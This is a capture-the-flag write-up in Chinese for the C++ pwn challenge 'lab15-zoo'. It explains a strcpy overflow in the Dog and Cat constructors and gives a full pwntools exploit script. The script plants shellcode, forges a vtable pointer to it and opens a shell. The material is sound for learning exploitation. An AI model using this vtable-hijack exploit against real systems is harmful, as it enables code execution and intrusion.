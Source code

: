 ### lab15-zoo
C++ 的 pwn 题, 这道题目没有开 NX, 也就是说可以使用 shellcode, 在 Dog::Dog, Cat::Cat 这些函数里也有很明显的通过 strcpy 实现 overflow 的漏洞, 因此这一题就可以通过溢出伪造虚表, 控制虚表指针指向 shellcode 地址来 get shell
更多 C++ pwn 的内容可以看这个 [slide](https://github.com/M4xW4n9/slides/blob/master/pwn_others/pwnincplusplus-160217120850.pdf), 内容虽然有点老了, 但很经典
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
context.log_level = "debug"
context.binary = "./zoo"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

def addDog(name, weight):
    io.sendlineafter(":", "1")
    io.sendlineafter(":", name)
    io.sendlineafter(":", str(weight))

def remove(idx):
    io.sendlineafter(":", "5")
    io.sendlineafter(":", str(idx))

def listen(idx):
    io.sendlineafter(":", "3")
    io.sendlineafter(":", str(idx))

if __name__ == "__main__":
    io = process("./zoo")
    nameofzoo = 0x605420

    sc = asm(shellcraft.sh())
    io.sendlineafter(":", sc + p64(nameofzoo))

    addDog('0' * 8, 0)
    addDog('1' * 8, 1)
    remove(0)
    vptr = nameofzoo + len(sc)
    addDog('a' * 72 + p64(vptr), 2)
    listen(0)

    io.interactive()
    io.close()
```

